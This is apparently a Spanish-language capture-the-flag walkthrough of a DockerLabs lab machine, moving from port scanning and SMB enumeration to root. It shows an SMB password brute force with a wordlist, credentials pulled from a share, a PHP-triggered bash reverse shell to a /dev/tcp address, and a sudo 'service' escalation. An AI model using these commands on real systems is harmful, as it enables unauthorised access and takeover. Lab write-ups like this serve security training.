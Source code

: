 nmap: 22,80,139,445

![image](https://github.com/user-attachments/assets/78d857c5-460d-42ce-94d6-3159515263ec)

---
hacemos un gobuster y nos da:

    gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,html,py,txt -t 64

![image](https://github.com/user-attachments/assets/b8a8ebeb-3b95-4134-a7fc-d1775b21470d)

    - info.php
    - productos.php

productos.php nos manda a otra pagina 

![image](https://github.com/user-attachments/assets/53410e19-348e-427a-94ea-322298cafe73)

en esa hay posibles contraseñas o usuarios como "shopo" o el codigo SHOPO20

haciendo un:
> enum4linux 172.17.0.2

nos da usuarios que tienen:

     - usuario1
     - usuario1
     - usuario3
     - satriani7
     - administrador

![image](https://github.com/user-attachments/assets/b54865f2-aa71-4d41-b4f6-bb8620adca3b)

hacemos una fuerza bruta: 

    sudo netexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding 

da:
> santriani7/50cent

![image](https://github.com/user-attachments/assets/6faf8fb6-d6a8-4faa-8de6-bd3e44c9e241)

lo utilizamos para ver que ficheros tiene:

    smbmap -u 'satriani7' -p '50cent' -H 172.17.0.2

da:

    - myshare
    - backup24

![image](https://github.com/user-attachments/assets/36b341bc-287c-48d7-9386-0a2f917309fa)

nos conectamos ahora al "smb" 

    smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'

dentro hay varios documentos
seguimos esta ruta: 
> Documentos > personal > get credentials.txt

![image](https://github.com/user-attachments/assets/5a4f3955-e87c-4c33-abe3-2be18a043f22)

en nuestra terminal lo leemos y tiene los usuarios y contraseñas

![image](https://github.com/user-attachments/assets/cd8931bd-d876-458e-af02-8cad7850d293)

entramos por el ssh con la de administrador

     administrador/Adm1nP4ss2024

![image](https://github.com/user-attachments/assets/bfcb74cb-b347-48cc-a77b-e790c3830b2a)

hacemos el comando: find / -user administrador 2>/dev/null
y encontramos esto

![image](https://github.com/user-attachments/assets/2bdc393e-152a-40ca-ad01-c1d6c6260651)

Sabiendo esto, podemos intentar crear un archivo que nos permita pasar al usuario "www-data"

vamos a la siguiente dirección:
> cd /var/www/html

creamos primero una carpeta llamada: shell.sh

    - #!/bin/bash
    - bash -i >& /dev/tcp/172.17.0.1/443 0>&1

ahora creamos una carpeta con php

      - <?php
      - system('./shell.sh')
      - ?>

ahora vamos al navegador que esten utilizando, en este caso firefox y colocamos: 
    http://172.17.0.2/shell.php
en el terminal victima colocamos en escucha: nc -nlvp 443 

![image](https://github.com/user-attachments/assets/3bcad5bf-8523-4102-b075-fc8b12a77519)

y estamos otra vez dentro

ahora un tratamiento stty

colocamos sudo -l
podemos escalar por "service". lo buscamos: https://gtfobins.github.io/gtfobins/service/#sudo

![[dockerlabs/facil/allien/sudo.png]]

lanzamos el comando que nos da: 

    sudo service ../../bin/sh

bash -p

![[dockerlabs/facil/allien/root.png]]

y somos root! 
